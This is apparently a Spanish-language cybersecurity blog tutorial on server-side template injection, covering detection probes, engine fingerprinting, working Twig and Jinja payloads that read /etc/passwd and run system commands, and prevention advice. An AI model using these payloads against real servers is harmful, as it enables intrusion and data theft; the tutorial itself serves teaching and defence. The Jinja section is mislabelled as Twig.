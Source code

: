 ```yaml
---
date: 2025-10-20T16:15:05.000Z
layout: post
comments: true
title: "Server-side Template Injection"
subtitle: 'SSTI'
description: >-
image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/sstilogo.png
optimized_image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/sstilogo.png
category: ciberseguridad
tags:
  - web
  - rce
  - owasp
  - php
  - ssti
author: Felipe Canales Cayuqueo
paginate: true
---
```


La inyección de plantillas del lado del servidor (SSTI) ocurre cuando un atacante logra insertar código dentro de una plantilla que luego es procesada por el servidor. Esto permite que el código malicioso se ejecute durante el renderizado, pudiendo comprometer por completo el sistema. La vulnerabilidad surge cuando la aplicación inserta directamente la entrada del usuario en la plantilla antes de renderizarla, o cuando el mismo contenido renderizado se vuelve a procesar, provocando que la entrada del usuario sea tratada como parte del código de plantilla.

### Identificación

Para poder confirmar la vulnerabilidad se debe provocar un mensaje de error en la aplicación web con el siguiente payload.

```
${{<%[%'"}}%\.
```

Tras identificar la posible vulnerabilidad, se debe determinar el motor de plantilla utilizado por la aplicación web a través de la siguiente tabla. 

[![ssti7](/images/ssti7.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti7.png)

#### Payloads

* `${7*7}`
* `a{*comment*}b`
* `${"z".join("ab")}`
* `{{7*7}}`
* `{{7*'7'}}`

#### Ejemplo

* Primero ingresamos ```${7*7}```, como no se interpretó significa que debemos seguir de la tabla la flecha que dice "no funciona".
 
    [![ssti1](/images/ssti1.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti1.png)

    [![ssti2](/images/ssti2.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti2.png)

* La tabla nos indica que debemos ahora probar con el payload `{{7*7}}`, con el cual obtenemos éxito y se interpreta.

    [![ssti3](/images/ssti3.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti3.png)

    [![ssti4](/images/ssti4.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti4.png)

* Como funcionó ahora debemos validar `{{7*'7'}}` donde obtenemos como resultado 49, es decir siguiendo la tabla nos estamos enfrentando ante un motor de plantillas "Twig".

    [![ssti5](/images/ssti5.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti5.png)

    [![ssti6](/images/ssti6.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti6.png)


### Explotación de Twig

Para este caso tenemos ciertas funciones internas para obtener más información e incluso obtener acceso al sistema.

#### Divulgación de información

Con la función ```_self``` es posible obtener más información de la plantilla.

```
{{ _self }}
```


#### Local File Inclusion

El marco web PHP Symfony define filtros Twig adicionales y uno de estos filtros es ```file_excerpt``` que permite leer archivos locales del sistema.

```
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

#### Ejecución remota de comandos (RCE)

Para lograr la ejecución remota de código, podemos utilizar una función incorporada de PHP como ```system```. Podemos pasar un argumento a esta función usando ```filter```.

```
{{ ['id'] | filter('system') }}
```

### Explotación de Twig

Jinja es un motor de plantillas utilizado en frameworks de Python como Flask o Django. En este tipo de vulnerabilidad, el atacante puede aprovechar que Jinja permite acceder a bibliotecas ya importadas por la aplicación, tanto de forma directa como indirecta, e incluso importar nuevas mediante la instrucción ```import```, lo que amplía su capacidad para ejecutar código malicioso en el servidor.

#### Divulgación de información

Es posible obtener información interna sobre el sistema, incluidos detalles de configuración e incluso el código fuente de la aplicación web.

```
{{ config.items() }}
```

También podemos obtener información sobre las funciones integradas disponibles en el código fuente.

```
{{ self.__init__.__globals__.__builtins__ }}
```

#### Local File Inclusion

Para explotar esta vulnerabilidad debemos utilizar la función incorporada de Python ```open``` en conjunto con ```__builtins__```.

```
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

#### Ejecución remota de comandos (RCE)

Para lograr la ejecución remota de comandos debemos utilizar funciones proporcionadas por el módulo ```os```, ```system``` o ```popen```.

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

> Se recomienda la herramienta automatizada [SSTImap](https://github.com/vladko312/SSTImap).

### Recomendaciones

Para prevenir vulnerabilidades SSTI, es fundamental garantizar que la entrada del usuario nunca se inserte directamente en las plantillas antes del proceso de renderizado. Se debe validar y sanear toda entrada, evitando que contenga caracteres o estructuras que puedan ser interpretadas como código. Además, los datos del usuario deben pasar únicamente como valores de contexto y no como parte del código de plantilla. Es recomendable utilizar motores de plantillas configurados con opciones de seguridad activadas, eliminar funciones peligrosas como eval o import, y aislar el entorno de ejecución mediante contenedores o entornos separados.
